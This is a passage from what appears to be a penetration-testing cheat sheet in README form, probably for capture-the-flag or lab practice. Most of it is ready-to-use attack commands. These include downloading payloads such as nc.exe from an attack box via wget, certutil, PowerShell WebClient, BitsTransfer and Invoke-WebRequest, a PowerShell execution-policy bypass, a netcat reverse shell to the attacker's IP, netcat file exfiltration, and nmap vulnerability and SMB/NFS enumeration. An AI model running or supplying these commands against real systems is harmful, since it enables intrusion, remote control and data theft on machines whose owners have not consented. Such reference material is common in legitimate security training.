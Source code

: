 ```sudo -l (NOTE: lists commands a user can run as root) ```
	wget http://[IP attack box][:port]/[File name]
	

**CertUtil.exe:**

	certutil -urlcache -split -f [URL] [Filename.Extension]
	certutil -urlcache -split -f http://[IP] nc.exe
	
	certutil.exe -encode [inputFileName] [encodedOutputFileName]
	certutil.exe -urlcache -split -f "http://[Attack box IP]/nc.txt" nc.txt
	certutil.exe -decode nc.txt nc.exe
	nc.exe [Attack box IP] 5555 -e cmd.exe
	
**VBScript file downloader:**

	echo [script code] > httpdownload.vbs
	echo [script code] >> httpdownload.vbs
	
**PowerShell Downloads:**

	echo $webclient = New-Object System.Net.WebClient > httpdownload.ps1
	echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1
	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File httpdownload.ps1
	
	powershell -c "(new-object System.Net.WebClient).DownloadFile('[Download URL]','[File Name]')"
	powershell -c "(new-object System.Net.WebClient).DownloadFile('http://172.16.3.1/nc.exe','nc.exe')"
	
	powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[IP Attack box]/nc.exe -Destination C:\
	
	powershell Invoke-WebRequest -Uri http://[IP Attack box]/nc.exe -OutFile C:\nc.exe
	
**Netcat File Transfers:**

	nc -lvp 8080 > /root/Desktop/transfer.txt
	nc 192.168.100.107 8080 < /root/Desktop/transfer.txt
	
## SSH:
    
```chmod 600 id_rsa```   
    
```ssh -i id_rsa username@{ipaddress}```
    
## NMAP:
    
    nmap -A -p- -vvv {IPAddress}
    
    nmap -A -p- --script vuln -vvv {IPAddress}
    
    nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.39.217
     
    nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.39.217

## smbclient:

```smbclient //<ip>/anonymous```
    
```smbget -R smb://<ip>/anonymous```

## smbserv:

cp /usr/share/doc/python-impacket/examples/smbserver.py .   
```